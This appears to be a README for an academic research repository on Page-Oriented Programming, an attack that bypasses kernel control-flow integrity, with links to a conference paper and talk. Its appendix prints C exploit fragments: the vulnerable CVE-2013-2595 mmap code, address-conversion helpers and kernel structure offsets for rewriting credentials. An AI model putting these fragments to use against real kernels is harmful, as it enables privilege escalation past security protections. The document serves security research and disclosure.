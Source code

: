 ```c

                        (
                       )  '                          (
                      ' ,  .      )                 . '
                    (    , ) `   ' )               (. ` )
                  ,  .' ) ( . ) ( ' (             ,  ( , )
               ,-). ` , ( .  (  , ) ---,         ( , ')  .'---,
             ,"( _,) . ), ) _) _ .  ),"|        ,')  (, ) '." |
            +-----------------------+  |      ,"(_  ) _(,"    |
            |  .-----------------.  |  |     +---------+      |
            |  | Lost Control:   |  |  |     | -==----'|      |
            |  | Breaking the    |  |  |     |         |      |
            |  | Kernel CFI with |  |  |/----|`---=    |      |
            |  | Page-Oriented   |  |  |   ,/|==== ooo |      ;
            |  | Programming     |  |  |  // |         |    ,"
            |  `-----------------'  |," .;'| |         |  ,"
            +-----------------------+  ;;  | |         |,"
               /_)______________(_/  //'   | +---------+
          ___________________________/___  `,
         /  oooooooooooooooo  .o.  oooo /,   \,"-----------
        / ==ooooooooooooooo==.o.  ooo= //   ,`\--{)B     ,"
        `-----------------------------'    '------------"
```

# 1. Page-Oriented Programming (POP)
POP is a new type of CRA that can circumvent robust security enforcement, including kernel CFI and hypervisor-based kernel integrity protection. It primarily focuses on direct branches and performs a page-level CRA by remapping the physical addresses of the gadgets to the branches and chaining them together. This process creates new control flows from system call functions to security-sensitive functions within the kernel. Our POP attack can succeed even against state-of-the-art CFI protection schemes, unlike typical ROP attacks that manipulate stack or heap memory and page table attacks that modify kernel code.

## 1.1. Presentation, Paper, and Demo
Our POP and related materials were presented at the security conferences listed below.
 - [Black Hat USA 2023: Lost Control: Breaking Hardware-Assisted Kernel Control-Flow Integrity with Page-Oriented Programming](https://www.blackhat.com/us-23/briefings/schedule/#lost-control-breaking-hardware-assisted-kernel-control-flow-integrity-with-page-oriented-programming-32061) 
 - [USENIX Security 2024: Page-Oriented Programming: Subverting Control-Flow Integrity of Commodity Operating System Kernels with Non-Writable Code Pages](https://www.usenix.org/conference/usenixsecurity24/presentation/han-seunghun) 

You can watch the demo video below. To simplify POP, the demo for Black Hat USA 2023 stitched gadgets at the kernel level. If you want an example that uses a real-world CVE, please check our USENIX paper and the usenix\_security\_2024/01.poc directory.
 - [![Page-Oriented Programming Demo](https://img.youtube.com/vi/crqufwG2LCk/hqdefault.jpg)](https://youtu.be/crqufwG2LCk)

# 2. License
The source code has GPL v2 license.


# Appendix for papers

#### Essential parts of the CVE-2013-2595 and published exploit code 
We ported a data structure to our 64-bit kernel driver and exploited the vulnerable interface to read and write arbitrary kernel memory.
```c
// A data structure for exploitation
struct msm_mem_map_info {
   //uint32_t cookie;      // Original fields
   //uint32_t length;
   //uint32_t mem_type;
   uint64_t cookie;        // Ported fields
   uint64_t length;
   uint64_t mem_type;
};

// Vulnerable code in the IOCTL function
static long msm_ioctl_config(struct file *fp, 
      unsigned int cmd, unsigned long arg)
{
   struct msm_cam_config_dev *config_cam = 
      fp->private_data;
   ...

   switch (cmd) {
   // Copying mmap information from user data
   case MSM_CAM_IOCTL_SET_MEM_MAP_INFO:
      if (copy_from_user(&config_cam->mem_map, 
            (void __user *)arg, sizeof(struct 
            msm_mem_map_info)))
      rc = -EINVAL;
      break;
   ...
   }
   ...
} 

// Vulnerable mmap() function
static int msm_mmap_config(struct file *fp, 
      struct vm_area_struct *vma)
{
   struct msm_cam_config_dev *config_cam = 
      fp->private_data;
   int phyaddr;
   int retval;
   unsigned long size;
   ...

   // Getting the start address from user data
   phyaddr = (int)config_cam->mem_map.cookie;
   memset(&config_cam->mem_map, 0, 
      sizeof(struct msm_mem_map_info));
   size = vma->vm_end - vma->vm_start;
   vma->vm_page_prot = pgprot_noncached(
      vma->vm_page_prot);

   // Mapping physical pages without checks
   retval = remap_pfn_range(vma, vma->vm_start,
               phyaddr >> PAGE_SHIFT,
               size, vma->vm_page_prot);
   ...
}
```

#### Address conversion functions of our POP exploit code
We mapped the kernel virtual address to the user space and modified arbitrary kernel memory for POP.
```c
// Variables for a start offset of physical 
//   memory and mapped address of it
uint64_t g_phy_off_start;
char*    g_phy_mapped_addr;
// A variable for the text section offset in the 
//   mapped physical memory
uint64_t g_mapped_text_off;
// Variables for the kernel start address and
//   page_offset_base (direct mapping area) 
uint64_t g_kernel_start_addr;
uint64_t g_page_offset_base;

void *kernel_virt_to_phys(void* virt)
{
   // For the direct mapping area
   if ((uint64_t)virt < g_kernel_start_addr)
   {
      return (void*)((uint64_t)virt - 
         g_page_offset_base);
   }
   // For the kernel code and data area
   else
   {
      // Adjusting for the kernel physical area
      return (void*)((uint64_t)virt - 
         g_kernel_start_addr + 
         g_mapped_text_off + 
         g_phy_off_start);
   }
}

void *convert_kernel_virt_to_user_virt(void* virt)
{
   uint64_t phys_addr;

   // Retrieving the physical address
   phys_addr = (uint64_t)kernel_virt_to_phys(
      virt);

   // Converting it to the user space address
   return (void*)(phys_addr - g_phy_off_start + 
      g_phy_mapped_addr);
}
```


#### Identified fields of kernel data structures from kernel assembly code
The field offsets were extracted from functions that access these fields, such as clear\_tasks\_mm\_cpumask(), prepare\_kernel\_cred(), \_\_set\_task\_comm(), and pgd\_alloc().
```c
// Offsets in kernel data structures
#define OFF_TASKS_IN_TASK         0x8d0
#define OFF_MM_IN_TASK            0x920
#define OFF_CRED_IN_TASK          0xb58
#define OFF_COMM_IN_TASK          0xb70
#define OFF_PGD_IN_MM             0x48
#define OFF_THREADKEYRING_IN_CRED 0x68

enum {
   TASK_COMM_LEN = 16,
};

struct list_head
{
   struct list_head *next, *prev;
};

struct mm_struct
{
   char buffer1[OFF_PGD_IN_MM];
   pgd_t * pgd;
};

struct cred
{
   char buffer1[OFF_THREADKEYRING_IN_CRED];
   uint64_t* thread_keyring;
};

struct task_struct
{
   char buffer1[OFF_TASKS_IN_TASK];
   struct list_head tasks;

   char buffer2[OFF_MM_IN_TASK - 
      OFF_TASKS_IN_TASK - 16];
   struct mm_struct* mm;

   char buffer3[OFF_CRED_IN_TASK - 
      OFF_MM_IN_TASK - 8];
   struct cred* real_cred;

   char buffer4[OFF_COMM_IN_TASK - 
      OFF_CRED_IN_TASK - 8];
   char comm[TASK_COMM_LEN];
};
```
